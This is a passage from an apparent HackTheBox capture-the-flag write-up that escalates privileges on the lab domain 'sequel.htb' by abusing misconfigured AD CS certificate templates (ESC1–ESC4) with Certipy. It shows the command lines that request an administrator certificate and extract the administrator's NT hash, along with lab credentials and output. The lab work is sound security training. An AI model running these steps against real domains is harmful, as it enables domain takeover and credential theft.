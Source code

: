 ```bash
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Authenticated Users
        Write Owner Principals          : SEQUEL.HTB\Authenticated Users
        Write Dacl Principals           : SEQUEL.HTB\Authenticated Users
        Write Property Principals       : SEQUEL.HTB\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'SEQUEL.HTB\\Authenticated Users' can enroll and template can be used for any purpose
      ESC3                              : 'SEQUEL.HTB\\Authenticated Users' can enroll and template has Certificate Request Agent EKU set
      ESC4                              : 'SEQUEL.HTB\\Authenticated Users' has dangerous permissions
```

<br />

Then we can request a domain administrator certificate:

<br />

```bash
❯ certipy req -ca sequel-DC01-CA -u ca_svc -p Password123! -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

<br />

And use it to get the administrator `NTLM` hash with certipy `auth` flag:

<br />

```bash
❯ certipy auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```
